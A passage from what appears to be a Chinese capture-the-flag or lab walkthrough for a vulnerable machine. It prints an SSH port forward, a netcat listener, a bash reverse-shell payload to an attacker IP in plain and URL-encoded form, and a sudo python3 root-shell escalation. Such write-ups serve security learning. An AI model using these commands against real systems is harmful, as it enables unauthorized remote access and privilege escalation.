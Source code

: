 可以看到这里可以远程执行命令。

于是利用ssh登录：

```bash
ssh -L 9999:127.0.0.1:9999 jehad@192.168.186.147
```

接下来获取一个反弹shell。

打开监听：

```bash
nc -nlvp 9001
```

用如下payload获取反弹shell

```bash
bash -c 'bash -i >& /dev/tcp/192.168.186.138/9001 0>&1'
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.186.138%2F9001%200%3E%261%27
```

于是我获取了losy用户下的shell。

接下来进一步获取root权限：查看.bash_history文件，可以找到losy的密码，并且losy可以直接进行sudo。因此利用我们使用过多次的python就可以得到root权限。

```bash
sudo python3 -c 'import os; os.system("/bin/bash")'
```

